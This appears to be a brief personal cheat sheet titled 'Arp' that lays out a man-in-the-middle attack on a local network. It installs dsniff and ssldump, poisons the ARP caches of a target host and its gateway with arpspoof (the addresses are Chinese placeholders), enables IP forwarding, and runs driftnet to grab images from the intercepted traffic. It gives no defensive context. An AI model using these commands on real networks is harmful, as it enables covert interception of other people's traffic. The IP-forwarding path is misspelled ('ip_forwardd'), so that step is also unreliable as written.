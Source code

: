 # Arp

apt install dsniff ssldump

arpspoof -i eth0 -t 目标IP 目标网关IP

echo 1 > /proc/sys/net/ipv4/ip_forwardd

driftnet -i eth0
